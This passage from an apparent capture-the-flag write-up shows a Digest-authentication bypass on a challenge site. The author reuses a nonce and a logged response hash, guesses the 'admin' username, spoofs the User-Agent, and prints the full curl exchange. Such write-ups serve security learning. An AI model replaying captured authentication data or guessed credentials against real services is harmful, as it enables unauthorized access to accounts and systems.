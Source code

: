 ```console
                </script>
                <input type="submit" value="Login" class="login-submit" />
        </form>

        <div class="underlay-photo"></div>
        <div class="underlay-black"></div>

</body>

</html>
```

The important part in the response is:
```
WWW-Authenticate: Digest realm=National_Cyber_Unit ,nonce="5af65be00c55a2181ce76eb95b43fc3be98d54a1",opaque=""
```

We use the realm and nonce in the next request, providing also the response from the log. We need to supply a username as well, let's guess "admin" and cross our fingers.
```console
root@kali:/media/sf_CTFs/433/login# curl -v -d "time=23:59" -A "Atomz/1.0" POST http://cyberlahavctf2019.com/main_page -H 'Authorization: Digest username="admin", realm="National_Cyber
_Unit", nonce="5af65be00c55a2181ce76eb95b43fc3be98d54a1", opaque="", uri="/main_page", response="e2b24a6d4c12eb701e9e42d7862d196d"'
* Rebuilt URL to: POST/
* Could not resolve host: POST
* Closing connection 0
curl: (6) Could not resolve host: POST
*   Trying 207.154.239.211...
* TCP_NODELAY set
* Connected to cyberlahavctf2019.com (207.154.239.211) port 80 (#1)
> POST /main_page HTTP/1.1
> Host: cyberlahavctf2019.com
> User-Agent: Atomz/1.0
> Accept: */*
> Authorization: Digest username="admin", realm="National_Cyber_Unit", nonce="5af65be00c55a2181ce76eb95b43fc3be98d54a1", opaque="", uri="/main_page", response="e2b24a6d4c12eb701e9e42d7862d196d"
> Content-Length: 10
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 10 out of 10 bytes
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: AccountType=B6FE1C672256EB8D509CD619691F866CA5D02A929ABD37643AC43C58ADD490C5; Max-Age=900; Path=/; Expires=Tue, 29 Jan 2019 19:52:23 GMT; HttpOnly
< Accept-Ranges: bytes
< Cache-Control: public, max-age=0
< Last-Modified: Sun, 27 Jan 2019 06:35:17 GMT
< ETag: W/"7fa-1688e04fa7f"
< Content-Type: text/html; charset=UTF-8
< Content-Length: 2042
< Date: Tue, 29 Jan 2019 19:37:23 GMT
< Connection: keep-alive
<
<!DOCTYPE html>
<html lang="en" >

<head>
  <meta charset="UTF-8">
  <title>The Forbidden Site</title>
  <link rel="stylesheet" href="main.css">
  <link href='https://fonts.googleapis.com/css?family=Cinzel Decorative' rel='stylesheet'>
  <link href='https://fonts.googleapis.com/css?family=Fredericka the Great' rel='stylesheet'>
```